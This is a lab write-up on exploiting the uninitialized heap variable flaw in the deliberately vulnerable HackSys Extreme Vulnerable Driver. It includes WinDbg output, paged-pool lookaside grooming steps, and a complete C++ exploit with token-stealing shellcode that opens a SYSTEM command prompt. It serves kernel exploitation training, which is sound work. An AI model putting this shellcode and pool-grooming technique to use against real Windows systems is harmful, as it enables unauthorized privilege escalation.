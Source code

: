 ```yaml
---
title: Windows Kernel Exploitation 0x06 | Uninitialized Heap Variable [eng]
published: true
tags: [ "kernelexploitation", "windows", "lab" ]
image: assets/previews/16.jpg
layout: page
pagination: 
  enabled: true
---
```


[write-up](https://rootkits.xyz/blog/2018/03/kernel-uninitialized-heap-variable/)

[write-up 2](https://dokydoky.tistory.com/445)

[exploit](https://github.com/ThunderJie/Windows-Kernel-Exploit/blob/master/HEVD/Uninitialized-Heap-Variable/UninitializedHeapVariable/UninitializedHeapVariable.c)

[original file renamed to UninitializedMemoryPagedPool.c](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver/blob/master/Driver/HEVD/Windows/UninitializedMemoryPagedPool.c)


## [](#header-2)Now our way is Uninitialized Heap Variable

* * bp HEVD!TriggerUninitializedHeapVariable
* * bp HEVD!TriggerUninitializedHeapVariable+119

Simply the same idea as in the previous one, but now it's from heap

I'll use [this](https://dl.packetstormsecurity.net/papers/general/windows-kernel-exploitation-tutorial-part-7-uninitialized-heap-variable.pdf) post to recreate the exploit in c++ and get some instructions in the process

Simple pattern as in first parts:

```cpp
#include <stdio.h>
#include <Windows.h>

HANDLE hDevice;

int main() {

  hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    NULL,
    NULL,
    OPEN_EXISTING,
    NULL,
    NULL);

  printf("[+] Start to get HANDLE...\n");
  if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL)
  {
    return FALSE;
  }
  printf("[+] Success to get HANDLE!\n");

  DWORD bReturn = 0;
  char buf[4] = { 0xb0, 0xb0, 0xd0, 0xba };

  DeviceIoControl(hDevice, 0x222033, buf, 4, NULL, 0, &bReturn, NULL);

  return 0;
}

```

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0xAC085188
[+] UserValue: 0xBAD0B0B0
[+] UninitializedHeapVariable Address: 0xAB83BA98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0xBAD0B0B0
[+] UninitializedHeapVariable->Callback: 0x905ACD58

kd> u 0x905ACD58
905acd58 688ad95a90      push    offset HEVD! ?? ::NNGAKEGL::`string' (905ad98a)
905acd5d e8a4c2ffff      call    HEVD!DbgPrint (905a9006)
905acd62 59              pop     ecx
```

Everything is okay, our template is ready

Let's provide anything except for 0xBAD0B0B0 value:

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0x8CD65960
[+] UserValue: 0x41414141
[+] UninitializedHeapVariable Address: 0xAB96DA98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x557BBF9D
[-] Exception Code: 0xC0000005
```

Looks like the same previous post about Pool Feng-Shui where we used CreateEvent's

Most important thing to note here is that even though the event object itself is allocated to Non-Paged
Pool, the last parameter, lpName of type LPCTSTR is actually allocated on the Paged Pool.

And we can actually define what it contains and its length.

Important moments to notice:

* We’d be grooming the Lookaside list, which are lazy activated only two minutes after the boot.
* Maximum Blocksize for Lookaside list is 0x20, and it only manages upto 256 chunks, after that, any
additional chunks are managed by the ListHead.
* We need to allocate 256 objects of same size and then freeing them. If the list is not populated, then
the allocation would come from ListHead list.
* We need to make sure that the string for the object name is random for each call to object constructor,
as if same string is passed to consecutive calls to object constructor, then only one Pool chuck will be
served for all further requests.
* We also need to make sure that our lpName shouldn’t contain any NULL characters, as that would
change the length of the lpName, and the exploit would fail. (important, here VirtualAlloc wouldn't work)

We’d be giving lpName a size of 0xF0, the header size would be 0x8, total 0xF8 chunks. The shellcode we’d
borrow from our previous tutorial


Thanks Thunder_J for his code

```js
[+] Pool Tag: 'kcaH'
[+] Pool Type: PagedPool
[+] Pool Size: 0xF0
[+] Pool Chunk: 0xAE8BCD40
[+] UserValue: 0x41414141
[+] UninitializedHeapVariable Address: 0x8FBD5A98
[+] Triggering Uninitialized Heap Variable Vulnerability
[+] UninitializedHeapVariable->Value: 0x00000000
[+] UninitializedHeapVariable->Callback: 0x0015F990

kd> !pool 0xAE8BCD40
Pool page ae8bcd40 region is Unknown
 ae8bc000 size:   30 previous size:    0  (Allocated)  CMVa
 ae8bc030 size:    8 previous size:   30  (Free)       SeAt
...
 ae8bc7c8 size:  570 previous size:  128  (Allocated)  Toke (Protected)
*ae8bcd38 size:   f8 previous size:  570  (Allocated) *Hack
    Owning component : Unknown (update pooltag.txt)

kd> dd ae8bcd38
ReadVirtual: ae8bcd38 not properly sign extended
ae8bcd38  061f02ae 6b636148 00000000 0015f990
ae8bcd48  41414141 41414141 41414141 41414141
ae8bcd58  41414141 41414141 41414141 41414141
ae8bcd68  41414141 41414141 41414141 41414141
ae8bcd78  41414141 41414141 41414141 41414141
ae8bcd88  41414141 41414141 41414141 41414141
ae8bcd98  41414141 41414141 41414141 41414141
ae8bcda8  41414141 41414141 41414141 41414141

kd> u 0015f990
0015f990 60              pushad
0015f991 64a124010000    mov     eax,dword ptr fs:[00000124h]
0015f997 8b4050          mov     eax,dword ptr [eax+50h]
0015f99a 89c1            mov     ecx,eax
0015f99c 8b98f8000000    mov     ebx,dword ptr [eax+0F8h]
```

```cpp
#include <stdio.h>
#include <Windows.h>

HANDLE hDevice = NULL;

static VOID CreateCmd() {
  STARTUPINFO si = { sizeof(si) };
  PROCESS_INFORMATION pi = { 0 };
  si.dwFlags = STARTF_USESHOWWINDOW;
  si.wShowWindow = SW_SHOW;
  WCHAR wzFilePath[MAX_PATH] = { L"cmd.exe" };
  BOOL bReturn = CreateProcessW(NULL, wzFilePath, NULL, NULL, FALSE, CREATE_NEW_CONSOLE, NULL, NULL, (LPSTARTUPINFOW)&si, &pi);
  if (bReturn) CloseHandle(pi.hThread), CloseHandle(pi.hProcess);
}

int main() {
  // Get HANDLE
  hDevice = CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",
    GENERIC_READ | GENERIC_WRITE,
    NULL,
    NULL,
    OPEN_EXISTING,
    NULL,
    NULL);

  printf("[+]Start to get HANDLE...\n");
  if (hDevice == INVALID_HANDLE_VALUE || hDevice == NULL) {
    printf("[-]Failed to get HANDLE!\n");
    exit(0);
  }
  printf("[+]Success to get HANDLE!\n");

  HANDLE Event_OBJECT[0x1000];

  char Shellcode[] = (
    "\x60"
    "\x64\xA1\x24\x01\x00\x00"
    "\x8B\x40\x50"
    "\x89\xC1"
    "\x8B\x98\xF8\x00\x00\x00"
    "\xBA\x04\x00\x00\x00"
    "\x8B\x80\xB8\x00\x00\x00"
    "\x2D\xB8\x00\x00\x00"
    "\x39\x90\xB4\x00\x00\x00"
    "\x75\xED"
    "\x8B\x90\xF8\x00\x00\x00"
    "\x89\x91\xF8\x00\x00\x00"
    "\x61"
    "\xC3"
    );

  //LPVOID Shellcode_Addr = VirtualAlloc(NULL,
  //  sizeof(Shellcode),
  //  MEM_COMMIT | MEM_RESERVE,
  //  PAGE_EXECUTE_READWRITE);

  //memcpy(Shellcode_Addr, Shellcode, sizeof(Shellcode));


  DWORD bReturn = 0;
  char lpName[0xf0] = { 0 };
  char buf[4] = { 0x41, 0x41, 0x41, 0x41 };

  memset(lpName, 0x41, 0xf0);

  printf("lpName is in 0x%p\n", lpName);
  for (int i = 0; i < 256; i++) {
    *(PDWORD)(lpName + 0x4) = (DWORD)&Shellcode;

    *(PDWORD)(lpName + 0xf0 - 4) = 0;
    *(PDWORD)(lpName + 0xf0 - 3) = 0;
    *(PDWORD)(lpName + 0xf0 - 2) = 0;
    *(PDWORD)(lpName + 0xf0 - 1) = i;
    Event_OBJECT[i] = CreateEventW(NULL, FALSE, FALSE, (LPCWSTR)lpName);
  }

  for (int i = 0; i < 256; i++) {
    CloseHandle(Event_OBJECT[i]);
    i += 4;
  }

  DeviceIoControl(hDevice, 0x222033, buf, 4, NULL, 0, &bReturn, NULL);
  //__debugbreak();

  printf("[+]Start to Create cmd...\n");
  CreateCmd();
  system("pause");

  return 0;
}
```
